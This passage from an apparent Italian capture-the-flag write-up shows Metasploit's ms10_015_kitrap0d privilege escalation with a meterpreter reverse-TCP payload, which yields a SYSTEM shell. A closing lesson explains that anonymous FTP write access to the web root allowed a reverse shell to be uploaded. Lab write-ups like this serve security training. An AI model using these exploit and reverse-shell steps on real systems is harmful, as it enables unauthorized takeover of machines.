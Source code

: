 Proviamo con il ms10_015_kitrap0d,settiamo msfcosole come segue:
```bash
msf6 exploit(windows/local/ms10_015_kitrap0d) > show options 

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.39      yes       The listen address (an interface may be specified)
   LPORT     5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)

View the full module info with the info, or info -d command.
```

Lanciamo exploit:

```bash
meterpreter > shell
Process 3248 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
c:\windows\system32\inetsrv>whoami
whoami
nt authority\system

c:\windows\system32\inetsrv>
```

# LESSON LEARNED

C'erano essenzialmente due vulnerabilità che ci hanno permesso di ottenere l'accesso a livello di sistema alla macchina.
1. La prima vulnerabilità è stata la configurazione non sicura del server FTP che ci ha permesso di ottenere un punto d'appoggio iniziale. Il nostro primo accesso è stato attraverso l'accesso anonimo. Poi abbiamo scoperto che il server FTP condivideva la directory principale del server web. Pertanto, quando abbiamo caricato una shell inversa nel server FTP, siamo stati in grado di eseguirla utilizzando il browser. Questo ci ha dato una shell privilegiata bassa sulla macchina.
